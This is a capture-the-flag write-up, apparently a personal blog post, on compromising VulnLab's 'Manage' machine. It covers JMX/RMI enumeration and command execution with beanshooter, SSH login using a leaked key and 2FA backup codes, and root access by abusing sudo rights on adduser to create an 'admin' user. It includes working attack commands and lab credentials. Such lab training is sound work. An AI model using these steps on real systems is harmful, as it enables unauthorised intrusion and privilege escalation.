

# Manage

Hello Friends,

Remo is Back

In this write-up, I’ll walk through how I pwned the **Manage** machine from **VulnLab**. From initial enumeration to gaining root access, I’ll explain the key steps, tools, and techniques used to complete the box.


Let’s start by scanning the machine.

```bash
sudo nmap -sC -sV -sS -O -A -oN scanned.txt -p 22,2222,8080,42247,42897 --min-rate=1000 10.10.123.154
```



now let’s try to get information about the Java RMI using beanshooter 

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar enum 10.10.123.154 2222
```


now let’s search for any credentials


as we see we got credentials for the user manager and admin

```bash
username: admin
password: onyRPCkaG4iX72BrRtKgbszd
username: manager
password: fhErvo2r9wuTEYiYgt
```

Now let’s try to gain code execution

First start tcpdump on your machine

```bash
sudo tcpdump -i tun0 icmp
```


now let’s go and try to ping myself from the victim machine

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.10.123.154 2222 exec 'ping -c 3 10.8.5.233'
```


Now let’s go back to our machine


and we got code execution!

Now let’s gain a shell 

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar standard 10.10.123.154 2222 tonka
```


now let’s go and get a shell.

```bash
java -jar beanshooter-4.1.0-jar-with-dependencies.jar tonka shell 10.10.123.154 2222
```


now let’s navigate to the useradmin directory

```bash
cd /home/useradmin
```


> Notice that we found a backup directory so let’s navigate to it
> 

```bash
cd backups
```


now let’s download the file in our local machine and see the content

```bash
tar -xvzf backup.tar.gz
```


> Notice that we got the id_ed25519 file which is the user admin private key
> 

Let’s login via SSH as the user “useradmin”

```bash
ssh -i .ssh/id_ed25519 useradmin@10.10.123.154
```


As we see it asks for the password but as we see when we extracted the backup file we found a google authenticator file so let’s see it’s content

```bash
cat .google_authenticator
```


as we see we got the backup code so let’s enter one of them in the SSH login


finally we are logged it! 🥳

Now let’s go and see our privileges 

```bash
sudo -l
```


> As we see we can execute the binary adduser as root without password
> 

First let’s google the default sudoers file


Notice that the admin user by default the admin user will have root access

Now let’s add a new admin user

```bash
sudo /usr/sbin/adduser admin
```


now let’s switch to the admin user

```bash
su admin
```


Now let’s go and check the user privilege

```bash
sudo -l
```


as we see we have all access to root so let’s go and switch to root

```bash
sudo su
```


and we got root access so let’s go to the root directory and see the flag

```bash
cd /root;ls -las
```


Amazing i got the root flag! 🥳


That’s it for the **Manage** machine! This challenge was a great test of enumeration and exploitation skills. Hope you found the write-up useful.

Remo

CRTE | CRTO | CRTP | eWPTX